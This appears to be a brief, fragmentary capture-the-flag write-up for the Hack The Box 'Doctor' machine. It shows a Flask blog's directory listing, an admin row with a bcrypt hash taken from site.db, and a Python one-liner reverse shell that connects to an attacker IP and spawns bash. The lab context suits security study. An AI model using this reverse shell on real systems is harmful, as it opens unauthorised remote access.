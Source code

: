 # Doctor

## Enumeration

### nmap

/home/web/blog/flaskblog

total 80
-rwxr--r-- 1 web web   302 Sep  5 11:35 config.py
drwxr--r-- 3 web web  4096 Jul 27 20:50 errors
-rwxr--r-- 1 web web   904 Jul 26 14:04 __init__.py
drwxr--r-- 3 web web  4096 Sep 22 11:45 main
-rwxr--r-- 1 web web  1678 Jul 21 20:37 models.py
drwxr--r-- 3 web web  4096 Sep 22 11:33 posts
drwxrwxr-x 2 web web  4096 Sep  5 11:58 __pycache__
-rw-r--r-- 1 web web 36864 Okt 13 07:58 site.db
drwxr--r-- 3 web web  4096 Sep 23 14:45 static
drwxr--r-- 3 web web  4096 Sep 23 14:46 templates
drwxr--r-- 3 web web  4096 Jul 21 20:37 tmp
drwxr--r-- 3 web web  4096 Sep 23 15:15 users

in site.db

1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",22473));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'